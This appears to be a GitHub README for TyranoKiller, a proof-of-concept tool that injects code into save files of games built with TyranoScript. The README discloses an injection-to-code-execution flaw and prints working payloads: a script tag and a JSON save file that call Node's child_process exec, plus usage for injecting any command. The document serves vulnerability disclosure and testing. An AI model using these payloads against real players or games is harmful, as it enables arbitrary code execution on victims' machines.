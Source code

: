 # TyranoKiller
👻 Code injection tool for TyranoScript (Tyrano series).  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

[日本語版はこちら](README_ja.md)  

**⚠Do not use save data files or game development data received from others!!!!⚠**  

The vulnerability was disclosed after 365 days of reporting to [IPA](https://www.ipa.go.jp/) and developers.
I have also received a response that it is not a vulnerability.
This PoC was created to alert users and investigate vulnerabilities in their own games, and is not to be used for attacks.
Using them in games created by others may be prohibited by law.

## Vulnerability
All games created with the tools listed below have a vulnerability in the save data file.
- TyranoScriptV5 <= 5.04b  
- TyranoScript <= 4.83  

Attackers can use Node.js functionality from JavaScript by embedding HTML tags in save data files, allowing them to execute arbitrary code.
They can also do that using the game development data `index.html`.
The following software is vulnerable.
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.02  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScriptV5 <= 5.11d)  
- (TyranoScript <= 4.88)  

The ability to inject into index.html is not included in this tool, but by previewing the game with the following code embedded, it becomes XSS to ACE.  
```html
<script>
require("child_process").exec("calc");
</script>
```

### Payload
It is not necessary to use the original game save data to reproduce the vulnerability.
The following save data will match all formats and execute code.
```json
{
    "kind":"save",
    "data":[{
        "title":"<script>require('child_process').exec('calc');</script>"
    }]
}
```

### Demo
![calc.gif](images/calc.gif)  
(Sample Game: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
The default is to execute the `calc` command.
The code will only be injected into the first save data.  

